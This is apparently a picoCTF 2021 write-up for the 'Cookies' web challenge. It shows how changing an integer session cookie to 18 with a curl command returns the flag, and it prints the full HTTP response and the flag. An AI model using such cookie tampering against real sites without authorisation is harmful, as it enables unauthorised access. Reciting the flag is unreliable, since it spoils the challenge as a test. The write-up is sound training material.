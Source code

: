 # Cookies

## Category - Web Exploitation
## Author - MADSTACKS

### Description: 
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:6418/

### Solution:
The challenge gives us a link which opens a webpage allowing us to input the name of a cookie. By clicking on 'Search' after typing in the name of a cookie we will either get
the error message "That doesn't appear to be a valid cookie." or we will get a success message saying "That is a cookie! Not very special though..." Seeing as we might need to
find the "special" cookie to get the flag we look at what is actually being modified on the webpage when checking our input. Taking a hint from the name of the challenge "Cookies"
we can use a Google Chrome Extension called editthiscookie to inspect the cookies on the page. There is only one cookie called "name" holding a single integer value of "0" after 
typing in "snickerdoodle" as the search box hinted us to do. Trying increasingly large values for this name cookie we see that the type of cookie changes with each one. Finally
after trying a variety of different cookies, the integer value of "18" for the "name" cookie gives us the flag.

Alternatively this challenge could have been done with a curl command that passes in the correct cookie value of 18 as such:
```
zerodaytea@Patryk:/mnt/d/Coding/CTFs/PicoCTF2021/WebExploitation$ curl -v --cookie "name=18" http://mercury.picoctf.net:6418/check
*   Trying 18.189.209.142:6418...
* TCP_NODELAY set
* Connected to mercury.picoctf.net (18.189.209.142) port 6418 (#0)
> GET /check HTTP/1.1
> Host: mercury.picoctf.net:6418
> User-Agent: curl/7.68.0
> Accept: */*
> Cookie: name=18
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 1184
<
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

* Connection #0 to host mercury.picoctf.net left intact
</html>
```

### Flag:
```
picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
```
